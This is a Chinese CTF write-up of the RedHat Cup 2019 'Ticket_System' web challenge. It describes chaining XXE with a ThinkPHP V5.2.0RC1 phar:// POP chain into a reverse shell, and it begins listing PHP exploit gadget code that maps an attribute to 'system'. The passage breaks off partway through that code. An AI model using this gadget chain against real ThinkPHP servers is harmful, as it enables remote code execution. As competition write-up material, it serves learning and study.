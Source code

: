 ```yaml
---
title: 第三届红帽杯线上赛 RedHat 2019 Writeup 
key: 300348fc940fd80189a0ddb9c90bb20b
tags:
  - XXE
  - SQLi
  - Writeup
  - CTF
date: 2019-11-12 15:47:49
---
```


## Web

### Ticket_System

存在`XXE ` 可读取服务器文件，F12 查看网页源代码提示查看 `/hints.txt`，获取到提示需要 RCE。

![](/assets/images/move/1573381811892.png)

利用 `ThinkPHP V5.2.0RC1`的 POP Chain，`XXE` + `phar://`反弹 shell 后在根目录下`trap "" 14`使程序不会中断退出，执行 `/readflag` 完成 challenge 即可获取flag。

`Phar` exp 可参考: http://m0te.top/articles/Thinkphp%20POP/Thinkphp%20POP.html

```php
<?php
namespace think\process\pipes {
    class Windows
    {
        private $files;
        public function __construct($files)
        {
            $this->files = array($files);
        }
    }
}

namespace think\model\concern {
    trait Conversion
    {
        protected $append = array("Test" => "1");
    }

    trait Attribute
    {
        private $data;
        private $withAttr = array("Test" => "system");

```